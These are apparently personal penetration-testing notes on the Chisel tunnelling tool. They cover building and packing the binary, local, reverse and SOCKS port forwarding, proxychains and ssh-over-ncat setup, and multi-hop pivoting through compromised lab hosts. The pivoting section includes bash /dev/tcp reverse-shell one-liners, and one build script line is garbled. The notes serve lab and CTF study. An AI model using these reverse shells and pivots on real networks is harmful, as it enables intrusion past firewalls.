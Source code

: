 # Chisel

Given the discrepancy between term used in [[Port-Redirection-And-Tunnelling]] as a authorial decision I am just going to try standardise the Offensive Security terminology - so read the linked article for information regard why this repository uses a particular set of definitions.

[Chisel](https://github.com/jpillora/chisel.git) *"is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*

![](chiselworksthisway.png)


## Compilation and Shrinking the binary

```bash
#!/bin/bash
git clone https://github.com/jpillora/chisel.git 
cd chisel/
# On Victim machine:
ldd --version # linux and windows


# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w" 
# Build for windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
upx chisel

# IPsec stuff I failed to get workingchisel server --port 8080 --reverse
go build -ldflags="-s -w"
upx brute chisel
chiselsize=$(du -hs chisel)
echo "Chisel is now ready and minimised: "
echo $chiselsize
```


Ran either on Attack box or target box as a server or client

- Regarding `--socks5` and `:socks`
	- *"When the chisel server has `--socks5` enabled, remotes can specify "socks" in place of remote-host and remote-port.The default local host and port for a "socks" remote is 127.0.0.1:1080. Connections to this remote will terminate at the server's internal SOCKS5 proxy."*

- Regarding `--reverse` and `R:`... TLDR: `--reverse` allows reverse port forwarding, `R:` perform reverse port forward
	- *"When the chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote that they are reversed. That is, the server will listen and accept connections, and they will be proxied through the client which specified the remote. Reverse remotes specifying "`R:socks`" will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy."*

Capture `chisel` traffic with `tcpdump` 
```bash
sudo tcpdump -nvvvXi tun0 tcp port $PORT
```

## Local Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server -host $interfaceIP -p 10000 
# Client
chisel client $interfaceIP:10000 127.0.0.1:10001
```

## Remote/Reverse Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server -host $interfaceIP -p 10000 --reverse
# Client
# R .. reverse from
# :$local_host == any interface opening a :$local_port
# To some :$remote_host:$remote_port
chisel client $interfaceIP:10000 R:$local_host:$local_port:$remote_host:$remote_port
# For example from the machine with the server you want to curl an internal webpage on 10.10.11.1:443, with access only to a client on 10.10.10.1
chisel client $serverIP:10000 R:10.10.10.1:12345:10.10.11.1:443
```

## Dynamic Port Forwarding  

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5
chisel client $interfaceIP:10000  10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Dynamic Socks Proxy

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5 --reverse
chisel client $interfaceIP:10000  R:10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Pivot with Chisel Explained:

Chisel is useful when you can not port forward with ssh. You would then need chisel for reverse pivoting, which is the reverse of port forward as the  **Remote box is listening** to connect back the attack to open up the tunnel. For information about [[Port-Redirection-And-Tunnelling]].

```bash
# AttackBox
chisel server -p 10000 -reverse # -v is useful for checking connection 
# Client
chisel client $attackboxIP:1000 R:8001:$targetip:$targetport
# Accessing through the tunnel on Attackbox
curl 127.0.0.1:8001 # will then access $clientip:$port
```


## Local Pivots and Chaining with Chisel Explained

Using `nohup` and `&` will background a job on a shell - very useful on linux  

Presuming you have a reverse shell on both 192.168.0.1 and 192.168.0.2, where `chisel server` has opened port `10001` from `nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10002 &` with second reverse shell on 192.168.0.2 being: `bash -c 'bash -i >& /dev/tcp/192.168.0.1/10001 0>&1'`; consider the following as:
```bash
# 10.10.10.10 = kali
# 192.168.0.1 = externally facing compromised box 
# 192.168.0.2 = internal virtual network not exposed to internet
# 192.168.0.3 = internal virtual network not exposed to internet

chisel server -p 10000 -reverse -v
# 192.168.0.1 - $kali
nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10000 &
# 192.168.0.2 - 
nohup ./chisel client 192.168.0.1:10002 10002:127.0.0.1:10002 &
# Reverse shell from 192.168.0.3
bash -c 'bash -i >& /dev/tcp/192.168.0.2/10002 0>&1'
```

[Consideration for Windows](https://learn.microsoft.com/en-US/troubleshoot/windows-client/deployment/create-user-defined-service)

## `SSH` and `chisel` with `ncat` 

If we has chisel socks proxy we can ssh into 10.10.10.10 with both `ssh` and `ncat` through the pivot! `ssh` plus `ncat` and `ProxyCommand` configuration option for SSH SOCKS Proxy
```bash
# SSH Formatting Tokens for ProxyCommand
# %h = host
# %p = port
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' admin@10.10.10.10
```

## 0xDF's TD;DR Cheat Sheet 

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim machine:

Command | Description
--- | ---
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through clie

For SOCKS proxies don't forget `proxychains` and it configuration!


## References

[0xDF Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
[Alexis Rodriiguez Medium](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683)
[Ippsec.Rocks](https://ippsec.rocks/?#)
[hdks](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)